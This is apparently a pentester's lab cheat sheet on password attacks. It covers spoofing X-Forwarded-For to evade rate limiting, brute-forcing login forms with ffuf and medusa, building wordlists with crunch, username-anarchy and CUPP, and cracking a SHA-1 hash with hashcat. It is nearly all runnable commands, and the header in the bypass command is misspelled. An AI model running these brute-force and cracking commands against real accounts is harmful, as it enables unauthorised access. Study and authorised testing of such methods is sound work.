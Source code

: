 ##### Bypass protection

1. Use header
```bash
for i in {1..10000}; do echo "$((RANDOM % 256)).$((RANDOM % 256)).$((RANDOM % 256)).$((RANDOM % 256))"; done > random_ips.txt
```

```bash
ffuf -w random_ips.txt:IP -H 'X-Forwareded-For: IP'
```
1. IP block may be reset on success login or request counter may be reset
2. Account lock after a number of fail attempts
3. captcha

#### Basic usage
````shell
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
````

[[ffuf]]
[[Passwords]]
#### Default passwords:
- [https://cirt.net/passwords](https://cirt.net/passwords)
- https://default-password.info/
- https://datarecovery.com/rd/default-passwords/
https://wiki.skullsecurity.org/index.php?title=Passwords
#### Generate passwords:
`crunch 8 8 0123456789abcdefABCDEF -o crunch.txt` the file generated is 459 GB and contains 54875873536 words.

crunch also lets us specify a character set using the -t option to combine words of our choice. Here are some of the other options that could be used to help create different combinations of your choice:  

@ - lower case alpha characters

, - upper case alpha characters

% - numeric characters

^ - special characters including space

`crunch 6 6 -t pass%%`
           
Crunch will now generate the following amount of data: 700 bytes 0 MB 0 GB 0 TB 0 PB Crunch will now generate the following number of lines: 100 pass00 pass01 pass02 pass03`


### Username anarchy
```shell
sudo apt install ruby -y
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy

./username-anarchy Jane Smith > jane_smith_usernames.txt
```

### CUPP - Common User Passwords Profiler
Generates passwords based on personal info (name, nickname, birthday, etc.)
```shell
sudo apt install cupp -y

cupp -i
```


detect hash type
`hashid 8d6e34f987851aa599257d3831a1af040886842f`

dict based attack on sha-1
`hashcat -m 100 -a 0 8d6e34f987851aa599257d3831a1af040886842f /usr/share/wordlists/rockyou.txt`

[[hashcat]]
#### Medusa

```shell
 medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh 
```

```shell-session
la1n23@htb[/htb]$ medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET 
```

 Perform additional checks for empty passwords (`-e n`) and passwords matching the username (`-e s`).
```shell
medusa -h 10.0.0.5 -U usernames.txt -e ns -M service_name
```
